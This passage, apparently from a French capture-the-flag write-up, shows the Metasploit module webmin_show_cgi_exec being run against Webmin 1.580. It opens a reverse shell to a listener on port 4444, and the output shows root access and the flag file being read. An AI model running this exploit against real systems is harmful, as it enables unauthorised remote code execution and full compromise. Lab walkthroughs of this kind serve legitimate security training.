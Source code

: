 ```sh
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580

```

Enfin, lançons l'exploit :

```sh
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.11.7.104:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo rSsusB5mGdRZ23jk;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "rSsusB5mGdRZ23jk\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.11.7.104:4444 -> 10.10.132.106:53802) at 2020-08-18 05:20:54 -0400

whoami
root
ls /root  
root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```

